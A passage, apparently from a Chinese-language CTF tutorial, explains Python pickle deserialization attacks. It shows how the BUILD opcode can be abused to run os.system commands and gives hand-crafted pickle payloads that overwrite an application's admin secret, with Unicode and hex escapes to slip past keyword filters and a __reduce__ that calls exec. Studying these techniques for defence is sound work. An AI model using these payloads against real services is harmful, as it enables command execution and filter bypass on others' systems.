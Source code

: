 ```python
```

如果我们将字典`{"__setstate__":os.system}`，压入栈中，并执行`b`字节码，，由于此时并没有`__setstate__`，所以这里b字节码相当于执行了`__dict__.update`，向对象的属性字典中添加了一对新的键值对。如果我们继续向栈中压入命令command，再次执行`b`字节码时，由于已经有了`__setstate__`，所以会将栈中字节码`b`的前一个元素当作`state`，执行`__setstate__(state)`，也就是`os.system(command)`

#### 绕过关键词过滤

- 利用V指令进行Unicode绕过
- 十六进制绕过
- 利用内置函数获取关键字

```python
b'''capp
admin
(S'secret'
I1
db0(capp
User
S"admin"
I1
o.'''

#过滤secret

b'''capp
admin
(Vsecr\u0065t
I1
db0(capp
User
S"admin"
I1
o.'''

#十六进制
b'''capp
admin
(S'\x73ecret'
I1
db0(capp
User
S"admin"
I1
o.'''
```

### reduce

```python
def __reduce__(self):
        return (exec,("global key;key=b'66666666666666666666666666666666'",))

```
